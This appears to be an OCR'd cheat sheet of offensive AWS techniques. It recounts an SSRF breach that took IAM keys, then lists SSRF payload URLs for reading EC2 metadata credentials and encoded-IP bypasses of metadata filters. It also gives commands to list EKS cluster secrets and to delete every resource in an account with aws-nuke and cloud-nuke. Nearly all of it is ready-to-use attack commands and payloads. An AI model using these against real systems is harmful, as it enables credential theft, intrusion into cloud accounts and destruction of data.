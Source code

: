 ```
   ◇ Attacker exploited SSRF on EC2 server and accessed metadata URL to get IAM access keys. Then, used keys to dump S3 bucket containing 100 million individual’s data.
• AWS EC2 Instance Metadata service Version 2 (IMDSv2)
• Updated in November 2019 – Both v1 and v2 are available
• Supposed to defend the metadata service against SSRF and reverse proxy vulns
• Added session auth to requests
• First, a “PUT” request is sent and then responded to with a token
• Then, that token can be used to query data
--
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token: $TOKEN"
curl http://example.com/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ISRM-WAF-Role
--

Post-compromise
• What do our access keys give us access to?
• Check AIO tools to do some recon (WeirdAAL- recon_module, PACU privesc,...)

http://169.254.169.254/latest/meta-data
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>

# AWS nuke - remove all AWS services of our account
# https://github.com/rebuy-de/aws-nuke
- Fill nuke-config.yml with the output of aws sts get-caller-identity
./aws-nuke -c nuke-config.yml # Checks what will be removed
- If fails because there is no alias created
aws iam create-account-alias --account-alias unique-name
./aws-nuke -c nuke-config.yml --no-dry-run # Will perform delete operation

# Cloud Nuke
# https://github.com/gruntwork-io/cloud-nuke
cloud-nuke aws

# Other bypasses
1.
aws eks list-clusters | jq -rc '.clusters'
["example"]
aws eks update-kubeconfig --name example
kubectl get secrets

2. SSRF AWS Bypasses to access metadata endpoint.
Converted Decimal IP: http://2852039166/latest/meta-data/
IPV6 Compressed: http://[::ffff:a9fe:a9fe]/latest/meta-data/
IPV6 Expanded: http://[0:0:0:0:0:ffff:a9fe:a9fe]/latest/meta-data/

# Interesting metadata instance urls:
http://instance-data
http://169.254.169.254
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
```